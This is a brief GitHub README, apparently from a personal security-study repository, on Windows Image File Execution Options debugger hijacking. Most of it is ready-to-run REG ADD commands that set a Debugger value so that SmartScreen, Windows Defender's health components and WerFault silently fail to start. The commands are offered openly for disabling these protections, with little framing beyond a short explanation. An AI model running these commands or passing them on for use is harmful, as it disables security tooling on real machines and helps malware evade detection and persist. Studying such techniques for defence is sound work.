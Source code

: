 If the executable is added to the regedit path("HKLM\Software\Microsoft\Windows NT\CUrrentVersion\Image File Execution Options\") and the debugger flag is set, other programs amy run before that program runs.
If the program that runs first does not call that program, you can substitute that program. This can prevent various important programs from running.

<h3>If you want to block "smartscreen"</h3>
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"<br>

<h3>If you want to block "Windows Defender"</h3>
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"<br>
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"<br>
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"<br>

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/03c52498-451b-4df5-9222-526db34b7964)

Run system32









